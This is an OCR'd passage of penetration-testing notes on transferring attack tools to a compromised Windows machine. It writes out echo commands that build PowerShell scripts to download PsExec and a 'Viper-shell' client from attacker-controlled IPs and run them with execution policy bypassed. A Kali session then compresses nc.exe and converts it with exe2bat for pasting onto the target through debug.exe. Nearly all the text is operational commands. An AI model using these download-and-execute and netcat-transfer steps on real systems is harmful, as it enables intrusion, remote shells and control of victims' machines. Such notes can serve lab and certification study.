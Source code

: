 •	echo $webclient = New-Object System.Net.WebClient >>psewget.ps1

•	echo $url = "http://10.11.0.69/PsExec.exe" >>psewget.ps1

•	echo $file = "PsExec.exe" >>psewget.ps1

•	echo $webclient.DownloadFile($url,$file) >>psewget.ps1

•	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File psewget.ps1

#### POWERSHELL TRANSFER VIPER-SHELL

•	echo $storageDir = $pwd > viperwget.ps1

•	echo $webclient = New-Object System.Net.WebClient >>viperwget.ps1

•	echo $url = "http://10.11.0.202/ViperClient.exe" >>viperwget.ps1

•	echo $file = "ViperClient.exe" >>viperwget.ps1

•	echo $webclient.DownloadFile($url,$file) >>viperwget.ps1


•	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File viperwget.ps1

#### USING DEBUG.EXE TO TRANSFER FILES

There is a 64k byte size limit to the files that can be created by debug.exe

root@kali:~# locate nc.exe|grep binaries

/usr/share/windows-binaries/nc.exe

root@kali:~# cp /usr/share/windows-binaries/nc.exe .

root@kali:~# ls -l nc.exe

-rwxr-xr-x 1 root root 59392 Apr 11 05:13 nc.exe

root@kali:~# upx -9 nc.exe

root@kali:~# ls -l nc.exe

-rwxr-xr-x 1 root root 29184 Apr 11 05:13 nc.exe

root@kali:~# locate exe2bat

/usr/share/windows-binaries/exe2bat.exe

root@kali:~# cp /usr/share/windows-binaries/exe2bat.exe .

root@kali:~# wine exe2bat.exe nc.exe nc.txt

Finished: nc.exe > nc.txt

root@kali:~# head nc.txt

Now copy and paste the hex code into the c:\ on the target machine

